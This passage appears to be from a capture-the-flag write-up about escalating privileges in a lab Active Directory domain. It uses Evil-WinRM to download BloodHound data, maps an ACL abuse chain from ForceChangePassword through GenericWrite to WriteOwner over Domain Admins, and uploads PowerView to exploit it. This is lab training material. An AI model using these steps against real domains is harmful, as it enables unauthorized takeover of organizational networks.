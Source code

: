The Zip archive is the results, which I’ll download to my VM:

```
*Evil-WinRM* PS C:\programdata> download C:\programdata\20220227174044_BloodHound.zip 20220227174044_BloodHound.zip
Info: Downloading C:\programdata\20220227174044_BloodHound.zip to 20220227174044_BloodHound.zip

Info: Download successful!

```

#### Analysis

I’ll load that data into BloodHound and take a look. It important to not use the newest version of BloodHound (4.1+), as the data from this older PS1 file won’t load. So I found the release before they removed the PowerShell collector and used that, [4.0.3](https://github.com/BloodHoundAD/BloodHound/releases/tag/4.0.3).

First I’ll find oliver and mark that user as owned. The first place to look is the “Outbound Control Rights”, which shows oliver has `ForceChangePassword` over smith.

![image-20220227210442678](https://0xdfimages.gitlab.io/img/image-20220227210442678.png)

Doing the same for smith, shows that user has `GenericWrite` over maria, and maria has `WriteOwner` over Domain Admins.

One of the pre-canned queries under “Analysis”, “Find Shortest Paths to Domain Admins”, actually shows the full path:

[![image-20220227210342139](https://0xdfimages.gitlab.io/img/image-20220227210342139.png)*Click for full size image*](https://0xdfimages.gitlab.io/img/image-20220227210342139.png)

### Change smith’s Password

BloodHound’s help on `ForceChangePassword` can be loaded by right clicking on the label:

![image-20220228054231102](https://0xdfimages.gitlab.io/img/image-20220228054231102.png)

It shows just how to do it using [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) on the “Abuse Info” tab:

![image-20220228054402736](https://0xdfimages.gitlab.io/img/image-20220228054402736.png)

I’ll download PowerView, upload it to Object, and import it into this session:

```
*Evil-WinRM* PS C:\programdata> upload PowerView.ps1
Info: Uploading PowerView.ps1 to C:\programdata\PowerView.ps1

Data: 1027036 bytes of 1027036 bytes copied

Info: Upload successful!
*Evil-WinRM* PS C:\programdata> . .\PowerView.ps1

```
